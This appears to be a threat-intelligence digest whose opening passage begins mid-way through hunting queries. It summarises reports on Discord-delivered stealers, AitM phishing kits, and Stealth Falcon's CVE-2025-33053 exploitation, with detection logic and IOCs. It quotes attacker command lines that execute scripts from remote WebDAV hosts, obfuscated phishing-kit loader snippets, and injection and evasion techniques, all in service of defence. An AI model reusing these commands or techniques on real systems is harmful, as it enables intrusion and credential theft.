        | where InitiatingProcessCommandLine contains "schtasks /create /tn \"checker\""
        or ProcessCommandLine contains "wscript.exe" and ProcessCommandLine contains "\\AppData\\Local\\ServiceHelper\\runsys.vbs"
        ```
        (Adaptable to KQL, SPL, etc.)
*   **File System Activity**:
    *   **Logic**: Hunt for the creation of `settings.txt` or `updatelog` files in `C:\\Users\\%USERNAME%\\AppData\\Local\\ServiceHelper\\`. Also, look for the presence of `syshelp.exe` or `searchHost.exe` in this directory. Monitor for modifications or creations of `LICENSE` files containing Discord webhook URLs in crypto wallet application directories.
    *   **Query**:
        ```
        FileCreation
        | where FilePath contains "\\AppData\\Local\\ServiceHelper\\settings.txt"
        or FilePath contains "\\AppData\\Local\\ServiceHelper\\updatelog"
        or FilePath contains "\\AppData\\Local\\ServiceHelper\\syshelp.exe"
        or FilePath contains "\\AppData\\Local\\ServiceHelper\\searchHost.exe"
        or (FileName in ("LICENSE", "LICENSE.electron.txt") and FileContent contains "discord.com/api/webhooks")
        ```
*   **Network Connections (User-Agent & Domains)**:
    *   **Logic**: Monitor network traffic for the specific User-Agent `Dynamic WinHTTP Client/1.0` used by the downloaders. Also, look for connections to the identified malicious domains (Pastebin, GitHub, Bitbucket, phishing sites, C2 servers, Discord webhooks) and Discord webhook URLs.
    *   **Query**:
        ```
        NetworkConnection
        | where UserAgent == "Dynamic WinHTTP Client/1.0"
        or RemoteUrl in ("https://pastebin[.]com/raw/zW0L2z2M", "https://captchaguard[.]me", "https://bitbucket[.]org/updatevak/upd/downloads", "https://github[.]com/frfs1/update/raw", "https://discord[.]com/api/webhooks/") // Add other identified domains
        ```
*   **Mutex Detection**:
    *   **Logic**: Detect the creation of the mutex associated with Skuld Stealer to identify its presence on endpoints.
    *   **YARA Rule (Example Logic, needs full rule definition)**:
        ```yara
        rule SkuldStealer_Mutex {
          strings:
            $s1 = "3575651c-bb47-448e-a514-22865732bbc" nocase wide ascii
          condition:
            $s1
        }
        ```
        (This YARA rule would search for the specific mutex name within files or memory dumps).
*   **Command Line Arguments**:
    *   **Logic**: Look for `installer.exe` or `syshelpers.exe` being executed with specific command-line arguments like `-arg1` or `-arg2`, which enable their malicious functionality. For ChromeKatz, monitor browser processes for the `--utility-sub-type=network.mojom.NetworkService` argument.
    *   **Query**:
        ```
        ProcessCreation
        | where (ProcessName == "installer.exe" or ProcessName == "syshelpers.exe") and ProcessCommandLine contains "-arg1"
        or (ProcessName in ("chrome.exe", "msedge.exe", "brave.exe") and ProcessCommandLine contains "--utility-sub-type=network.mojom.NetworkService")
        ```
*   **Windows Defender Exclusion Monitoring**:
    *   **Logic**: Monitor for PowerShell commands attempting to add exclusions to Windows Defender, specifically targeting user directories.
    *   **Query**:
        ```
        ProcessCreation
        | where ProcessCommandLine contains "PowerShell" and ProcessCommandLine contains "Add-MpPreference -ExclusionPath" and ProcessCommandLine contains "\\users\\"
        ```

### IOC
**Hashes**
```
673090abada8ca47419a5dbc37c5443fe990973613981ce622f30e83683dc932
160eda7ad14610d93f28b7dee20501028c1a9d4f5dc0437794ccfc2604807693
5d0509f68a9b7c415a726be75a078180e3f02e59866f193b0a99eee8e39c874f
375fa2e3e936d05131ee71c5a72d1b703e58ec00ae103bbea552c031d3bfbdbe
53b65b7c38e3d3fca465c547a8c1acc53c8723877c6884f8c3495ff8ccc94fbe
d54fa589708546eca500fbeea44363443b86f2617c15c8f7603ff4fb05d494c1
670be5b8c7fcd6e2920a4929fcaa380b1b0750bfa27336991a483c0c0221236a
8135f126764592be3df17200f49140bfb546ec1b2c34a153aa509465406cb46c
f08676eeb489087bc0e47bd08a3f7c4b57ef5941698bc09d30857c650763859c
db1aa52842247fc3e726b339f7f4911491836b0931c322d1d2ab218ac5a4fb08
ef8c2f3c36fff5fccad806af47ded1fd53ad3e7ae22673e28e541460ff0db49c
```

**Domains**
```
captchaguard[.]me
pastebin[.]com
github[.]com
bitbucket[.]org
codeberg[.]org
microads[.]top
```

**IPs**
```
101.99.76.120
87.120.127.37
185.234.247.8
```

**Discord Webhooks**
```
https://discord[.]com/api/webhooks/1355186248578502736/_RDywh_K6GQKXiM5T05ueXSSjYopg9nY6XFJo1o5Jnz6v9sih59A8p-6HkndI_nOTicO
https://discord[.]com/api/webhooks/1348629600560742462/RJgSAE7cYY-1eKMkl5EI-qZMuHaujnRBMVU_8zcIaMKyQi4mCVjc9R0zhDQ7wmPoD7Xp
https://discord[.]com/api/webhooks/1363890376271724785/NiZ1XTpzvw27K9O-0IVn7jM7oVVA_6drg91Wxgtgm78A9xsLoD1e_t-GFLiRBw5Lfv41
https://discord[.]com/api/webhooks/1367077804990009434/jPrMZM5-Rq9LryHdcKRBvsObHHWhNvHnnhPn07yohGYsDdFYadR2YCk4oqnHwXekdDib
```

**Original link:** [https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/](https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/)


## Global analysis of Adversary-in-the-Middle phishing threats

### Summary
This report provides a comprehensive analysis of Adversary-in-the-Middle (AitM) phishing threats, which have significantly increased in sophistication and scale, primarily targeting Microsoft 365 and Google accounts globally. This growing trend is largely attributed to the proliferation and professionalization of the Phishing-as-a-Service (PhaaS) ecosystem, which offers advanced phishing kits and associated services at low costs and with minimal technical expertise required.

AitM phishing kits are designed to bypass Multi-Factor Authentication (MFA) by harvesting session cookies, which allows attackers to replay compromised sessions and gain unauthorized access to victim accounts without further authentication. Such compromises frequently lead to significant financial losses through Business Email Compromise (BEC) operations, financial fraud, or even ransomware attacks. The Sekoia Threat Detection & Research (TDR) team actively monitors these threats, identifying emerging kits, tracking adversary infrastructure, and analyzing prevalent tactics, techniques, and procedures (TTPs) to provide actionable intelligence for detection, identification, and investigation. Key findings indicate that prominent phishing kits like Tycoon 2FA, Storm-1167, NakedPages, Sneaky 2FA, EvilProxy, and Evilginx are currently the most widespread. The report emphasizes the rapid adoption of new TTPs by threat actors, including a shift from QR codes to HTML and SVG attachments for link distribution. The cybercrime ecosystem supporting AitM phishing and BEC attacks is becoming increasingly professionalized, offering a broader suite of products and services, including anti-bot capabilities and managed phishing infrastructure.

### Technical Details


Adversary-in-the-Middle (AitM) phishing attacks leverage sophisticated techniques to intercept user credentials and session cookies, effectively bypassing Multi-Factor Authentication (MFA). These attacks often begin with social engineering lures delivered via email campaigns, primarily targeting employees in finance, sales, human resources, and executive roles within organizations worldwide. The lures commonly involve corporate matters such as financial inquiries (e.g., bonus distribution, invoices, compensation), human resources topics (e.g., vacations, salaries, policy agreements), or IT and security alerts (e.g., policy updates, secured documents). Threat actors frequently employ strategies like impersonation of trusted entities (Microsoft, Google, Adobe, DocuSign, or internal departments/executives), creating a sense of urgency, invoking confidentiality requirements, and providing false security guarantees to trick victims.

**Common TTPs and Attack Flow:**
1.  **Initial Access and Link Distribution:** Phishing emails often contain attachments (PDF, SVG, HTML documents) or embedded links that redirect users to malicious websites.
    *   **QR Codes:** Widely adopted since 2023 for redirecting users to AitM phishing pages, remaining prevalent despite improved detection.
    *   **HTML Attachments:** Increased use since 2024, directly executing JavaScript to render phishing pages, as they are potentially less detectable by email security tools and are offered as ready-to-use templates by PhaaS providers like Mamba 2FA, Tycoon 2FA, and Greatness.
    *   **SVG Attachments:** A significant surge in early 2025, containing JavaScript or `xlink:href` attributes to redirect victims.
2.  **Redirection Steps and Anti-Bot Features:** Adversaries commonly insert one or more redirection steps using legitimate domain names (often exploiting "open redirect" vulnerabilities) to evade email filters and scanners.
    *   **Traffic Filtering:** Redirection pages frequently incorporate custom or commercialized Traffic Distribution Systems (TDS) such as BlackTDS (used by Tycoon 2FA) or Adspect (used by Mamba 2FA). These systems filter traffic based on IP address origin (residential ISP vs. hosting provider), operating system, and web browser consistency with corporate environments to ensure the phishing page is only displayed to likely targets.
    *   **CAPTCHA Pages:** Most AitM phishing campaigns utilize anti-bot pages protected by CAPTCHAs, often integrating legitimate services like Cloudflare Turnstile, reCAPTCHA, hCaptcha, or open-source solutions like IconCaptcha, requiring human interaction.
3.  **AitM Phishing Page:** After navigating these steps, users land on a malicious page typically mimicking Microsoft 365 or Google authentication portals. The AitM phishing server relays user inputs (usernames, passwords, MFA codes) to the legitimate authentication API while intercepting the returned session cookie. This cookie allows attackers to replay the session and access the victim's account without further authentication.
    *   **Implementation Methods:**
        *   **Reverse Proxy:** Phishing kits like Evilginx, EvilProxy, and NakedPages act as intermediaries, replicating authentication pages and relaying traffic to capture sensitive data.
        *   **Synchronous Relay:** PhaaS platforms such as Tycoon 2FA, Sneaky 2FA, and Mamba 2FA clone legitimate authentication webpages to harvest user data and forward it in real time to the legitimate service, allowing for customization of phishing pages.
4.  **Post-Compromise Activities (BEC):** Once cloud accounts are compromised, attackers conduct further BEC attacks, primarily focusing on financial fraud.
    *   **Internal and External Spearphishing:** Impersonating the compromised employee in follow-up phishing campaigns.
    *   **Data Exfiltration:** Stealing documents from email inboxes and cloud storage.
    *   **Fraudulent Transactions:** Modifying banking details, issuing fake invoices, or instructing fund transfers.
    *   **Persistence:** Attackers often add their own 2FA method to maintain access even if session cookies are revoked, and create email forwarding rules to continue gathering information.

**Phishing-as-a-Service (PhaaS) Ecosystem:**
PhaaS platforms typically operate on a subscription-based model, costing $100 to $1,000 monthly. They offer various features, including email and attachment templates, anti-bot capabilities, administration panels, and data forwarding to Telegram bots. Some providers offer the kit's source code for client-side deployment, while others host fully operational phishing pages. Sales and distribution predominantly occur via Telegram channels and private groups, often integrated with cryptocurrency payment gateways and offering tutorials and customer support.

**Tools and Services Supporting Attacks:**
Beyond PhaaS, cybercriminals utilize various tools for phishing activities:
*   **Email Sending Software (Senders/Mailers):** Both legitimate services (SendGrid, Mailgun, Mailchimp) and custom tools offering features like proxy rotation, attachment obfuscation, and email spoofing.
*   **SMTP Domain Warming Services:** Used to build reputation for SMTP domains and servers before launching campaigns to maximize deliverability.
*   **Purchasable Resources:** Mailing list data ("leads"), "SMTP checkers," access to compromised email addresses, pre-configured or compromised SMTP servers, attachment templates, and Traffic Distribution System (TDS) services.

**Prominent AitM Phishing Kits (as of Q1 2025):**
*   **Tycoon 2FA (High Prevalence):** Synchronous relay, PhaaS since August 2023. Uses custom, fake Cloudflare Turnstile, hCaptcha, and reCAPTCHA anti-bot pages. Infrastructure involves operator-managed phishing domain names, verification domains, and exfiltration domains. Uses obfuscated JavaScript (AES encryption, base64 encoding) and browser fingerprinting. App ID: `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).
*   **Storm-1167 (High Prevalence):** Synchronous relay, major PhaaS since April 2023. Uses custom Cloudflare Turnstile with Microsoft logo. Infrastructure primarily uses .it.com FQDNs for phishing, Tencent cloud platform for main JavaScript code, and various TLDs for exfiltration domains. Main steps involve Turnstile page, obfuscated JavaScript for authentication, and data exfiltration to `/google.php`. App ID: `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).
*   **NakedPages (High Prevalence):** Reverse proxy, major PhaaS since May 2022. Uses custom/default Cloudflare Turnstile. Infrastructure involves Cloudflare Workers or affiliate-controlled domains for initial and phishing domains. Relies on server-side anti-bot checks and iframe-based redirection. Phishing server acts as a reverse proxy. App IDs: `00000002-0000-0ff1-ce00-000000000000` (Office 365 Exchange Online), `72782ba9-4490-4f03-8d82-562370ea3566` (Office365), `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).
*   **Sneaky 2FA (Medium Prevalence):** Synchronous relay, PhaaS since September 2024. Uses Cloudflare Turnstile impersonating Microsoft. Affiliate-controlled phishing domains. Initial benign HTML pages with food-related content (not visible to user) that reload to the next stage, obfuscated JavaScript, and redirection steps. App ID: `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).
*   **EvilProxy (Medium Prevalence):** Reverse proxy, PhaaS since August 2020. Uses custom reCAPTCHA pages. Affiliate-controlled infrastructure. Authentication steps involve reCAPTCHA (optional), fake Microsoft pages, and the phishing server acting as a reverse proxy relaying requests to Microsoft API, with WebSocket communication. App ID: `72782ba9-4490-4f03-8d82-562370ea3566` (Office365).
*   **Evilginx - ywnjb (Medium Prevalence):** Open-source reverse proxy, first observed December 2022 using the "o365" phishlet with `YWNjb` subdomain. Does not provide anti-bot pages by default. Phishing clusters based on subdomains (e.g., `ywnjb.`). App ID: `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).
*   **Saiga 2FA (Low Prevalence):** Synchronous relay, PhaaS since November 2024. Uses custom Cloudflare Turnstile (possibly not default). Affiliate-controlled phishing domains. Involves initial HTML fetching JavaScript, obfuscated Next.js application, and POST requests to various `/api/` endpoints for exfiltration. App ID: `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).
*   **Greatness (Low Prevalence):** Synchronous relay, PhaaS since June 2022. Uses custom CAPTCHA pages impersonating Microsoft. Infrastructure includes operator's central server on Amazon AWS (AS16509) and optional affiliate cloud services. Data exfiltration via WebSockets with XOR encoding. App ID: `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).
*   **Mamba 2FA (Medium Prevalence, but potentially underestimated):** Synchronous relay, PhaaS since November 2023. Uses blank pages or Adspect anti-bot service. Operator's infrastructure for phishing and exfiltration domains. Involves obfuscated HTML/JavaScript, web browser fingerprinting, and data exfiltration using Socket.IO (WebSocket with HTTP fallback). App ID: `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).
*   **Gabagool (Low Prevalence):** Synchronous relay, PhaaS since October 2024. Uses custom Cloudflare Turnstile page ("Browser security check in progress."). Affiliate-controlled initial and phishing domains, operator-controlled exfiltration domains. JavaScript performs AES decryption of base64-encoded HTML and downloads additional code. Credentials exfiltrated twice. App ID: `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).
*   **CEPHAS (Low Prevalence):** Synchronous relay, PhaaS since August 2024 (formerly W3LL Panel). Uses optional custom Cloudflare Turnstile. Affiliate-controlled initial and phishing domains, operator-controlled central server (AS202015). Obfuscated HTML/JavaScript, anti-bot checks based on IP/User-Agent, and HTTP POST for data exfiltration. App ID: `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome).

### Countries
Large-scale AitM phishing campaigns are observed to target organizations **worldwide**. Sekoia's telemetry data, which influences the prevalence rankings, predominantly comes from **European-based organizations**.

### Industries
AitM phishing campaigns primarily target employees in **finance, sales, human resources, and executive roles** within organizations. The intent is to leverage their connection to financial operations to facilitate BEC and other forms of fraud.

### Recommendations
Detecting AitM phishing attacks requires a multi-faceted approach leveraging various log sources and monitoring techniques, with a focus on Microsoft Entra environments.

*   **Authentication Logs Analysis (Microsoft Entra sign-in logs, Microsoft 365 Audit Logs):**
    *   **User-Agent Anomalies**: Monitor for missing, library-specific, invalid, fabricated, outdated, or rare User-Agent header values, as synchronous relay kits often hardcode these instead of forwarding the legitimate browser value.
    *   **Application ID and Resource ID**: Utilize these fields to add specificity to detection rules, as specific kits consistently target the same Application and Resource IDs (e.g., OfficeHome for most PhaaS, Office365 for EvilProxy, or Office 365 Exchange Online for NakedPages).
    *   **ASN and Country of Source IP**: Differentiate between legitimate user connections originating from Internet Service Provider (ISP) Autonomous Systems (ASes) and malicious connections from hosting provider ASes. Be aware that commercial proxy services (e.g., PacketStream, IPRoyal) can obscure this, leading to mixed or residential IP origins. For centralized infrastructures, look for consistent ASNs and geographic regions (e.g., AS19871, AS132203 for Storm-1167). For self-hosted kits, observe affiliate preferences (e.g., DigitalOcean AS14061 for Sneaky 2FA, Global Connectivity Solutions AS215540 for NakedPages).
    *   **Correlation ID Reuse**: Detect instances where the same Correlation ID (intended to be unique per authentication attempt) is reused across multiple authentication attempts, indicating a potential AitM kit implementation bug.
    *   **Incoherences Across Authentication Steps**: Identify variations or inconsistencies in User-Agent strings or source ASN/country between successive events within the same authentication attempt, as these can be significant detection opportunities.

*   **Network Traffic Monitoring:**
    *   **Domain Name Patterns in DNS Logs**: For reverse proxy AitM kits, monitor for specific subdomain names or patterns (e.g., `ywnjb.` for a popular Evilginx phishlet) that map to legitimate impersonated authentication services' FQDNs.
    *   **URL Patterns in Web Navigation Logs**: Create detection rules for characteristic URL paths of legitimate authentication services (e.g., `common/SAS/BeginAuth`) that appear with unexpected domain names (e.g., `hxxps://<phishing-domain>/common/SAS/BeginAuth`). This requires logging complete URLs, typically via web proxies with HTTPS decryption or browser extensions.

### Hunting methods
The report identifies several key patterns and anomalies that can be leveraged for threat hunting, primarily through **Sigma detection rules**, as well as through **network traffic monitoring**. While specific rule syntax (Yara, KQL, SPL, IDS/IPS, WAF) is not provided in the source, the underlying logic for detection is detailed.

**Logic for Hunting Queries (based on detection opportunities):**

*   **Authentication Logs Analysis (Microsoft Entra ID / Microsoft 365 Audit Logs):**
    *   **User-Agent Anomalies**:
        *   **Logic**: Query authentication logs for `userAgent` or `ExtendedProperties[Name=UserAgent].Value` fields that are empty, contain generic library strings, appear fabricated or invalid, or are significantly outdated/rare. These indicate a non-standard client making the authentication request, common with synchronous relay kits.
    *   **Application ID and Resource ID**:
        *   **Logic**: Correlate `appId` or `ApplicationId` with `resourceId` or `ObjectId` values. Focus on common targets like `4765445b-32c6-49b0-83e6-1d93765276ca` (OfficeHome) which is targeted by most kits like Tycoon 2FA, Storm-1167, Sneaky 2FA, Evilginx - ywnjb, Saiga 2FA, Greatness, Mamba 2FA, Gabagool, and CEPHAS. Also look for `72782ba9-4490-4f03-8d82-562370ea3566` (Office365) used by EvilProxy and NakedPages, and `00000002-0000-0ff1-ce00-000000000000` (Office 365 Exchange Online) used by NakedPages.
    *   **ASN and Country of Source IP**:
        *   **Logic**: Filter `autonomousSystemNumber` (ASN) or derived country from `ClientIP` in authentication logs. Prioritize connections originating from hosting provider ASNs (e.g., `AS132203` (Tencent), `AS19871` (Network Solutions) for Storm-1167; `AS14061` (DigitalOcean), `AS36352` (HostPapa), `AS215540` (Global Connectivity Solutions) for NakedPages; `AS14061`, `AS63949`, `AS14956` for EvilProxy; `AS16509` (Amazon AWS) for Greatness) instead of typical Internet Service Provider (ISP) ASNs. Be mindful of proxy services like PacketStream or IPRoyal used by Greatness and Mamba 2FA, which might show residential IPs.
    *   **Correlation ID Reuse**:
        *   **Logic**: Monitor `correlationId` or `InterSystemsId` fields for instances where the same UUID is observed across multiple, distinct authentication attempts within a short timeframe, indicating a flaw in the kit's implementation.
    *   **Incoherences Across Authentication Steps**:
        *   **Logic**: Analyze sequential authentication events for the same `correlationId`. Look for sudden changes or discrepancies in `User-Agent` strings or the source `ASN/country` within these correlated steps, which suggests an AitM proxy or synchronous relay causing inconsistencies.

*   **Network Traffic Monitoring (DNS Logs, Web Navigation Logs):**
    *   **Domain Name Patterns in DNS Logs**:
        *   **Logic**: Hunt for specific subdomain patterns known to be used by AitM kits, such as `ywnjb.*` (e.g., `ywnjb.login.live.com`) in DNS queries, which is a strong indicator for a popular Evilginx phishlet.
    *   **URL Patterns in Web Navigation Logs**:
        *   **Logic**: If web proxies with HTTPS decryption or browser extensions are in use, monitor for characteristic URL paths of legitimate authentication services (e.g., `/common/oauth2/v2.0/authorize`, `/common/GetCredentialType`, `/common/SAS/BeginAuth` for Microsoft). Combine these paths with unexpected or anomalous top-level domains or subdomains in the full URL (e.g., `hxxps://<malicious-domain>/common/SAS/BeginAuth`), to detect when legitimate-looking paths are hosted on phishing infrastructure.

*   **Indicators in Code (HTML, JavaScript, Attachments):**
    *   **Tycoon 2FA**: Look for invisible character (Unicode U+200B) in HTML title; code deobfuscation fetching from `code.jquery.com/jquery-3.6.0.min.js` or `cdnjs.cloudflare.com/ajax/libs/crypto-js/4.1.1/crypto-js.min.js`.
    *   **Storm-1167**: Pseudo-randomly generated lowercase HTML titles for anti-bot/phishing pages; HTML comments in various languages (English, French, German, Arabic, Spanish), formerly using nature themes.
    *   **NakedPages**: "We needs to review the security of your connection before proceeding." or "We need to review the security of your connection before proceeding." in previous custom Cloudflare Turnstile pages; `rickorigin=` in Microsoft login page HTML.
    *   **Sneaky 2FA**: HTML tags like `<!-- Food Section -->`; HTML titles such as "Verify your account", "Verify your identity", "Confirm your login", "Signin to your account".
    *   **EvilProxy**: HTML title "reCAPTCHA: Click Allow to verify that you are not a robot" on reCAPTCHA webpage.
    *   **Evilginx - ywnjb**: Malicious URLs injected into legitimate Microsoft code.
    *   **Saiga 2FA**: Next.js JavaScript code; HTML title using Latin words (e.g., `Dolor et culpa ut culpa nulla occaecat esse eiusmod velit nisi aliquip irure eu ad.`); characteristic JSON files from `/api/` endpoints for configuration.
    *   **Greatness**: HTML attachment containing JavaScript like `<script> b8527f88086 = ''.replace.call("<obfuscated-url>",/(a2ec21|edd117f1)/g,""); $.getScript(b8527f88086);</script>`; malicious JavaScript with variables like `var loader`, `var def_end`, functions `function docWriter`, `const botdPromise`, `const fpPromise`.
    *   **Mamba 2FA**: Anti-bot page HTML ` " onerror="(new Function(atob(this.dataset.digest)))();" style="visibility: hidden;">`; Phishing page HTML ` <html id='html' sti='<base64>' vic='<autograb>' lang='en'>` or `const pointLink = "<base64>";`.
    *   **Gabagool**: CSS comment `/* Your CSS styles */` and car-related HTML comments in custom Cloudflare Turnstile and HTML loader; characteristic strings like `variable usuuid`, functions `decstr`, `querulous`, `sendMouseData`; AES-encryption using variables `a, b, c` and `crypto-js.min.js`; exfiltration using `do` field (values: `GURI`, `check`, `le`, `ver`, `cV`), `em`, `psk`.
    *   **CEPHAS**: Default Turnstile text "Online safety check underway."; hard-coded HTML element IDs like `JKDfIUfjdsnf`, `KlwiHWjdk`, `UuejjerBHDdhEHE`; long comments about events (e.g., "wine tasting on Riverside Avenue …") or astronomy concepts (e.g., "Stellar Vortex") in attachments/phishing pages; `class="cloudflare_security_text"`; `localStorage.getItem('ov-cf')`.

### IOC
*technical artifacts are available on [the SEKOIA-IO/Community GitHub repository](https://github.com/SEKOIA-IO/Community/tree/main/IOCs/global-analysis-aitm-phishing-threats), including summary sheets, HAR captures, anti-bot page screenshots, and more.*

**Original link:** [https://t7f4e9n3.delivery.rocketcdn.me/wp-content/uploads/2025/06/Sekoia_io___Global_analysis_of_Adversary_in_the_Middle_phishing_threats.pdf](https://t7f4e9n3.delivery.rocketcdn.me/wp-content/uploads/2025/06/Sekoia_io___Global_analysis_of_Adversary_in_the_Middle_phishing_threats.pdf)\
[Global analysis of Adversary-in-the-Middle phishing threats](https://blog.sekoia.io/global-analysis-of-adversary-in-the-middle-phishing-threats/)

## Stealth Falcon's Exploit of Microsoft Zero Day Vulnerability

### Summary
Stealth Falcon, also known as FruityArmor, is an advanced persistent threat (APT) group that has been active since at least 2012, conducting cyber espionage operations. The group recently executed a new campaign leveraging a **zero-day vulnerability, CVE-2025-33053**, which allows remote code execution by manipulating a program's working directory. This vulnerability was responsibly disclosed by Check Point Research (CPR), leading Microsoft to release a patch on June 10, 2025, as part of their June Patch Tuesday updates.

Stealth Falcon's operations are predominantly focused on the **Middle East and Africa**, with observed high-profile targets in the **government and defense sectors** in countries such as Turkey, Qatar, Egypt, and Yemen.

Their primary infection method continues to be **spear-phishing emails**, often containing links or attachments that utilize **WebDAV** and **LOLBins (Living Off the Land Binaries)** to deploy malware. The group is known for acquiring zero-day exploits and employing sophisticated, custom-built payloads.

A key aspect of their capabilities is the deployment of custom implants built upon the **open-source red team framework, Mythic**. Their latest custom implant is dubbed **Horus Agent**, an evolution of their previously used customized **Apollo implant**. These custom implants incorporate advanced anti-analysis and anti-detection measures, and they validate target systems before delivering more advanced payloads. Beyond Mythic-based agents, Stealth Falcon also utilizes multiple previously undisclosed custom payloads and modules, including **keyloggers, passive backdoors, and a DC Credential Dumper**.

The group consistently enhances the stealth and resilience of their payloads, using commercial code obfuscation and protection tools like **Code Virtualizer** and **Themida**, along with custom modifications. They also improve their C2 infrastructure by acquiring and repurposing older, legitimate domains from registrars like NameCheap, primarily using .net or .com TLDs, to avoid detection and hinder attribution efforts. This continuous evolution ensures their custom payloads remain highly evasive and difficult to track and analyze.

### Technical Details



Stealth Falcon employs a multi-stage infection chain characterized by sophisticated TTPs leveraging legitimate system features and custom malware components.

**Initial Access and Execution:**
*   **Spear-Phishing:** The primary vector is spear-phishing emails containing malicious attachments or links.
    *   **.url files (CVE-2025-33053 exploitation):** In recent campaigns, attackers used `.url` files (e.g., `TLM.005_TELESKOPIK_MAST_HASAR_BILDIRIM_RAPORU.pdf.url`). These files exploit **CVE-2025-33053** by setting the `URL` parameter to a legitimate Windows executable, such as `C:\Program Files\Internet Explorer\iediagcmd.exe`, while manipulating the `WorkingDirectory` parameter to point to an attacker-controlled WebDAV server (e.g., `\\summerartcamp[.]net@ssl@443/DavWWWRoot\OSYxaOjr`).
    *   **LOLBin Abuse (iediagcmd.exe):** The `iediagcmd.exe` utility normally spawns legitimate diagnostic processes like `ipconfig.exe` or `route.exe` by searching the current folder first via the standard .NET `Process.Start()` method. By setting the `WorkingDirectory` to their WebDAV server, Stealth Falcon ensures that `iediagcmd.exe` executes a malicious `route.exe` placed on their server instead of the legitimate system one. The group also reportedly abuses `CustomShellHost.exe` in a similar manner to spawn `explorer.exe` from its manipulated working directory.
    *   **LNK files (older campaigns):** Earlier campaigns (e.g., October 2023) used LNK files (e.g., `Supplier.lnk`) inside ZIP attachments, which executed `cmd.exe` with various LOLBins.
        *   **`cmd /c DeviceCredentialDep^loyment`**: `DeviceCredentialDeployment.exe` is a known LOLBin used to hide the command prompt window, making the execution backgrounded.
        *   **`pushd \\mystartupblog.com@ssl@443\eQwcvcZIy`**: Changes the current directory to a remote WebDAV server.
        *   **`start /B https://mystartupblog.com/ePkNWY/deUsplnb.pdf`**: Opens a decoy PDF lure in the background using the default browser.
        *   **`forfiles /p c:\windows /m notepad.exe /c \\mystartupblog.com@ssl@443\eQwcvcZIy\Supplier0.8bps`**: This LOLBin executes a command (`Supplier0.8bps` script from WebDAV) if a file (e.g., `notepad.exe` in `c:\windows`) is found.
        *   **`popd`**: Returns to the previous directory after the `pushd` command.
*   **WebDAV Reliance:** Both `.url` and `.lnk`-based infection chains heavily rely on the WebDAV protocol for serving malicious files and subsequent stages.

**Loader Capabilities (Horus Loader - `route.exe`):**
*   **Protection:** The malicious `route.exe` functions as a multi-stage loader written in C++. It is protected with **Code Virtualizer**, a code protection system that transforms code into custom virtual machine instructions, making analysis difficult. It's a lighter version of Themida protector, heavily used by Stealth Falcon previously.
*   **Digital Signature:** The loader is signed with an outdated digital signature (from "Danielle D Festa," valid 2016-2017) to prevent auto-detection of unsigned samples.
*   **Anti-Analysis/Anti-Debug:**
    *   Manually maps `kernel32.dll` and `ntdll.dll` into memory.
    *   Scans running processes for 109 security solutions from 17 different vendors (e.g., Kaspersky, Avast, AVG, Symantec). Depending on predefined flags, it can terminate execution if a security product is detected.
*   **Customization and Cleanup:** It's highly customizable, with default values controlling features like cleaning up artifacts and implementing evasions. While it has an option to terminate processes from earlier stages (e.g., `iediagcmd.exe`, `CustomShellHost.exe`), a bug in the analyzed sample caused it to attempt to terminate non-existent "i" and "e" processes.
*   **Decoy Deployment:** Decrypts a PDF lure (e.g., `TLM.005_TELESKOPIK_MAST_HASAR_BILDIRIM_RAPORU.pdf`) embedded in its `.udata` section, writes it to `%temp%`, and opens it with `cmd.exe` to distract the victim while the malicious chain continues in the background.
*   **Payload Loading:** The main payload is in the `.xdata` section, obfuscated using "**IPfuscation**" (converting thousands of IPv6 addresses to bytes via `RtlIpv6StringToAddressA`). The loader then creates a suspended legitimate process (e.g., `msedge.exe`), injects the payload into its memory, and switches the main thread's execution context, all within a virtual machine environment.

**Horus Agent (Final Payload):**
*   **C2 Framework:** A custom-built agent for the **Mythic C2 open-source framework**, written in C++. It exhibits unique characteristics compared to other C-based Mythic agents.
*   **Anti-Analysis/Obfuscation:**
    *   Employs custom **OLLVM (Obfuscator-LLVM)**, utilizing both **string encryption** (a simple shift cipher subtracting 39 from each character) and **control flow flattening** to complicate reverse engineering.
    *   Implements **API Hashing**: It creates structures for required functions, assigns hash values, and resolves them only when needed (e.g., for decryption, networking, COM, token manipulation).
    *   Includes calls to various Windows DLL functions (e.g., GDI32, Winspool, User32) that are never actually executed, likely to confuse static analysis engines and resemble legitimate Windows components.
*   **C2 Communication:**
    *   Configuration fields are stored in the implant and decrypted using RC4. It supports multiple C2 domains and can load configuration from a decrypted JSON.
    *   Communication largely follows the Mythic `httpx` profile. Agents check in, poll for tasks, and send responses.
    *   **Check-in:** The agent collects initial system information (username, OS, domain, host, PID, UUID, architecture) and sends it as a JSON payload.
    *   **Encryption:** All sent data is encrypted with **AES with HMAC-SHA256** for integrity. The packet structure includes a hardcoded 36-byte UUID, a 16-byte IV, encrypted data, and a 16-byte HMAC checksum. The entire packet is Base64-encoded and sent in a query string.
*   **Supported Commands (Custom capabilities highlighted):**
    *   `jobs`: Sends a text visualization of running jobs.
    *   **`survey` (Custom):** Collects extensive system information including running services (via WMI query `SELECT * FROM Win32_Service WHERE State='Running'`), battery status (`GetSystemPowerStatus`), username (`%USERPROFILE%`), processes (PID, architecture, name, user, path, parent PID), and network configuration (via WMI query `FROM Win32_NetworkAdapterConfiguration WHERE IPEnabled = 'True'`).
    *   **`config` (Custom):** Updates configuration values like sleep/jitter/communication timeout.
    *   `exit`: Instructs the agent to exit.
    *   `ls`: Lists files/folders in a directory.
    *   **`shinjectchunked` (Custom):** A highly powerful and customizable shellcode injection command. It allows shellcode to be sent in chunks and offers two injection methods:
        1.  **Classic Process Injection:** Opens the target process, allocates/writes memory, and creates a remote thread.
        2.  **Stealth Mode:** Checks for specific Sophos security processes (e.g., `ALsvc.exe`, `SEDService.exe`, `hmpalert.exe`). If any are running, it defaults to the classic method. Otherwise, it injects the shellcode into the **same process** by allocating memory, copying the shellcode, and creating a thread.
    *   `jobkill`: Kills a job by ID.
